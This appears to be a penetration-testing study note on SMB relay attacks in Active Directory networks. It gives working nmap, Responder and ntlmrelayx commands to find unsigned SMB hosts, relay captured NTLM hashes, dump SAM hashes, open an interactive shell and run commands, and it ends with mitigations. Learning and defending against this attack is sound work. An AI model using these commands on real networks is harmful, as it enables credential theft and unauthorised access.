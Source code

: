 What is SMB Relay?

Instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines and potentially gain access

Requirements:

1) SMB signing must be disabled or not enforced on the target 
2) Relayed user credentials must be admin on machine for any real value.

How to SMB relay: 

1) Identify hosts without SMB Signing

```
nmap --script=smb2-security-mode.nse -p445 <IP_address> -Pn
```

We can use -Pn to try probing it if we don't find a host without SMB signing on it

![[Pasted image 20240827114321.png]]

2) Edit  Responder config file:

```
sudo mousepad /etc/responder/Responder.conf
```

![[Pasted image 20240827114539.png]]

We need to turn SMB and HTTP off because we need to make sure that the hashes are not being stored, they're instead getting relayed.

3) Run Responder:

```
sudo responder -I eth0 -dwPv
```

4) Set up your relay:

```
sudo ntlmrelayx.py -tf targets.txt -smb2support
```

-tf stands for target file.

![[Pasted image 20240827114802.png]]

5) An event occurs:

![[Pasted image 20240827115046.png]]

Go to the active Directory and point to the attacker machine.

6) We won!

![[Pasted image 20240827115115.png]]

It dumps out the SAM hashes here. We can then crack those hashes to gain access to the system.

7) Other Wins:

```
sudo ntlmrelayx.py -f targets.txt -smb2support -i
```

We can also put an -i at the end so that we can get an interactive shell instead of dumping the SAM hashes.

![[Pasted image 20240827115337.png]]

```
sudo ntlmrelayx.py -f targets.txt -smb2support -c "whoami"
```

We can also run commands using -c which is also really cool.

![[Pasted image 20240827115508.png]]

Mitigation Strategies:

1) Enable SMB Signing on all devices:
	1) Pro: Completely stops the attack.
	2) Con: Can cause performance issues with file copies.
2) Disable NTLM authentication on network:
	1) Pro: Completely stops the attack.
	2) Con: If kerberos stops working, Windows defaults back to NTLM.
3) Account tiering:
	1) Pro: Limits domain admins to specific tasks (e.g: only log onto servers with need for DA).
	2) Con: Enforcing the policy may be difficult.
4) Local admin restriction:
	1) Pro: Can prevent a lot of lateral movement.
	2) Con: Potential increase in the amount of service desk tickets.